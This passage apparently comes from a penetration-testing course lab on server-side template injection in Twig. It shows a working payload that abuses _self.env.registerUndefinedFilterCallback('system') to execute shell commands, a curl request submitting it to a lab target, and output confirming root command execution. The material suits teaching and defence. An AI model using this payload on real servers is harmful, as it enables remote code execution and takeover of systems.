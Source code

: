 The next step is to gain remote code execution on the target server. Before moving the payload part, it should be mentioned that Twig has a variable `_self`, which, in simple terms, makes a few of the internal APIs public. This `_self` object has been documented, so we don't need to brute force any variable names (more on that in the next SSTI exploitation examples). Back to the remote code execution part, we can use the `getFilter` function as it allows execution of a user-defined function via the following process:

-   Register a function as a filter callback via `registerUndefinedFilterCallback`
    
-   Invoke `_self.env.getFilter()` to execute the function we have just registered
    

#### Payload

Code: php

```php
{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("id;uname -a;hostname")}}
```

Let's submit the payload using cURL this time.

#### cURL - Interacting with the Target

```shell
p3ta@htb[/htb]$ curl -X POST -d 'name={{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("id;uname -a;hostname")}}' http://<TARGET IP>:<PORT>

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.1//EN"
"http://www.w3.org/TR/xhtml11/DTD/xhtml11.dtd">
<html>
<head>
  <link rel="stylesheet" type="text/css" href="css/default.css" media="screen"/>
  <title>SSTI</title>
</head>
<body>
<div class="container">
  <div class="main">
    <div class="header">
      <div class="title">
        <h1>I'm here to say hello</h1>
      </div>
    </div>
    <div class="content">
 

<a>
    Who are you?
    <form method='post' action=''>
        <div class="form-group"> 
            <input placeholder="Name" name="name" size=70></input> <button class="btn btn-default" type="submit" name='submit'>Send</button>
       </div> 
    </form>
Hello uid=0(root) gid=0(root) groups=0(root)
Linux serversideattackssstitwig-60784-78bd58b5b-pmvvv 4.19.0-17-cloud-amd64 #1 SMP Debian 4.19.194-3 (2021-07-18) x86_64 GNU/Linux
serversideattackssstitwig-60784-78bd58b5b-pmvvv
serversideattackssstitwig-60784-78bd58b5b-pmvvv!</a>

        </div>    
        <div class="clearer"><span></span></div>
    </div>
    <div class="footer">Break me!</div>
</div>
</body>
```